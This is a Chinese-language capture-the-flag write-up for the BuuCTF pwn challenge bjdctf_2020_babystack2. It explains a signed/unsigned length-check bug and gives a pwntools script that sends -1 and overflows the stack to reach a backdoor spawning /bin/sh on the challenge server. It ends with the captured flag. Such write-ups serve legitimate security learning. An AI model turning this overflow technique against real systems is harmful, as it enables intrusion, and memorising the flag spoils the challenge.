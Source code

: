 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - 整数溢出
---
```


# bjdctf_2020_babystack2

## 前置工作

先 CheckSec 一波，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec bjdctf_2020_babystack2 
[*] '/home/ela/Pwn/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，其他没啥

用 IDA 64 反编译一下主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

在仔细找找，发现在 `0x400726` 上有后门函数 `backdoor()`

```c
__int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```

## 解决思路

这道题的关键在于变量 `nbytes` 的利用，`nbytes` 在声明的时候是作为 `size_t` 声明出来的，本身属于无符号整型，但在 `if ( (int)nbytes > 10 )` 中被强制转换成了有符号的整型 `int`，造成了整数溢出

作为初学者，我也不知道上面说的是不是真的，所以我自己试了一下，写了个 C 程序

```c
#include "stdio.h"

int main() {
    unsigned int nbytes;
    scanf("%d", &nbytes);
    if ((int) nbytes > 10) {
        puts("signed > 10");
    }
    if ((unsigned int) nbytes > 10) {
        puts("unsigned > 10");
    }
    return 0;
}
```

当你输入 `100` 的时候，输出如下

```
signed > 10
unsigned > 10
```

当你输入 `-100` 或者 `-1` 的时候，输出如下

```
unsigned > 10
```

我们就可以将 `nbytes` 定为 `-1`，就能绕过最大长度 10 的限制，知道这个原理过后，我们可以编写 Exp

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 26082)
backdoor = 0x400726
io.recvuntil("[+]Please input the length of your name:")
io.sendline("-1")
io.recvuntil("[+]What's u name?")
payload = b"A"*(0x10+0x8) + pack(backdoor, 64)
io.sendline(payload)
io.interactive()

```

运行后使用 `cat flag`，获得 Flag 是 `flag{13c76a46-00ba-4c35-9f65-3ffde7e913e2}`